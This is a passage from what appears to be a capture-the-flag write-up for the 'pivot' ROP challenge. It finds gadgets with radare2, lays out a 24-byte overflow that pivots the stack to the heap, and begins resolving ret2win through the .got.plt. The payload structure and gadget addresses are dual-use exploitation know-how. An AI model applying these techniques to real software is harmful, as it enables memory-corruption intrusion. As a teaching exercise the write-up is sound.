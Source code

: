 Running the binary several times in a row demonstrates that the address changes from run to run.

This is expected behavior from `malloc`, but means that we'll have to dynamically parse the address - no statically coding it in our exploit.

This is where the "pivot" name of the challenge comes from. In order to gain more room for our ROP shenanigans, we'll leverage our ability to write larger payloads to a different location and then a gadget which can change the stack pointer:

```asm
[0x004008a0]> /R rsp

  [A BUNCH OF LINES WE DON'T CARE ABOUT RIGHT NOW]

  0x00400afe               0000  add byte [rax], al
  0x00400b00                 58  pop rax
  0x00400b01                 c3  ret
  0x00400b02               4894  xchg rax, rsp
  0x00400b04                 c3  ret

  [A BUNCH MORE LINES]
```

Oh hey so that's good news. `0x00400b00` will let us pop a value into `rax` and `0x00400b02` will let us put that value into `rsp`.

We can arrange our stack smash like this and have exactly the 24 bytes we're limited to:
```
0x00400b00
[OUR HEAP ADDRESS]
0x00400b02
```

When the `xchg rax, rsp; ret;` gadget executes, the `ret` instruction will pop the next value off the stack.
Because we've changed the stack pointer's address, the next value popped will actually be whatever we put at that new address, and we can continue our ROP chain.
In this case, we want to 'pivot' to the heap, because that's where we are able to write our first payload.

Ok, so far so good, but what about that line `Call ret2win() from libpivot.so`?

The challenge has a little bit of helpful hint text:
> The ret2win() function in the libpivot.so shared object isn't imported, but that doesn't mean you can't call it using ROP! You'll need to find the .got.plt entry of foothold_function() and add the offset of ret2win() to it to resolve its actual address. Notice that foothold_function() isn't called during normal program flow, you'll have to call it first to populate the .got.plt entry.

Looking at the `pivot` binary, we can see that `ret2win` isn't in the `pivot` binary's PLT:
```asm
[0x004008a0]> iS
[Sections]
Nm Paddr       Size Vaddr      Memsz Perms Name
00 0x00000000     0 0x00000000     0 ---- 
01 0x00000238    28 0x00400238    28 -r-- .interp
02 0x00000254    32 0x00400254    32 -r-- .note.ABI_tag
03 0x00000274    36 0x00400274    36 -r-- .note.gnu.build_id
04 0x00000298    68 0x00400298    68 -r-- .gnu.hash
05 0x000002e0   552 0x004002e0   552 -r-- .dynsym
06 0x00000508   269 0x00400508   269 -r-- .dynstr
07 0x00000616    46 0x00400616    46 -r-- .gnu.version
08 0x00000648    32 0x00400648    32 -r-- .gnu.version_r
09 0x00000668    96 0x00400668    96 -r-- .rela.dyn
10 0x000006c8   240 0x004006c8   240 -r-- .rela.plt
11 0x000007b8    26 0x004007b8    26 -r-x .init
12 0x000007e0   176 0x004007e0   176 -r-x .plt
13 0x00000890     8 0x00400890     8 -r-x .plt.got
14 0x000008a0   738 0x004008a0   738 -r-x .text
15 0x00000b84     9 0x00400b84     9 -r-x .fini
```